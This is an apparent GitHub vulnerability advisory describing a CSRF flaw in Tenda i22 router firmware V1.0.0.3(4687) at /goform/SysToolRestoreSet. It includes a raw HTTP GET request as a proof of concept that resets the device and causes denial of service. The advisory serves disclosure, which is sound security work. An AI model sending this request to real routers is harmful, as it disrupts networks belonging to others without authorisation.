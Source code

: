 # Tenda i22 V1.0.0.3(4687) is vulnerable to Cross Site Request Forgery (CSRF) via function fromSysToolRestoreSet

## Description

`Tenda`  Router **i22 V1.0.0.3(4687)** is vulnerable to Cross Site Request Forgery (CSRF) via function `fromSysToolRestoreSet`

## Firmware information

* Manufacturer's address: https://www.tenda.com.cn/

* Firmware download address : https://www.tenda.com.cn/download/detail-2747.html

## Affected version

![image-20221120101953226](images/01.png)

## Vulnerability details

This vulnerability lies in the `/goform/SysToolRestoreSet` page，The details are shown below:

![image-20221120142340526](images/02.png)

![image-20221120142412727](images/04.png)

It allows remote attackers to reboot the device and cause denial of service via a payload hosted by an attacker-controlled web page.

## POC

This POC can result in a Dos.

```
GET /goform/SysToolRestoreSet HTTP/1.1
Host: 192.168.204.133
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: bLanguage=cn; password=jbl1qw; user=
Connection: close


```

![image-20221120142509445](images/03.png)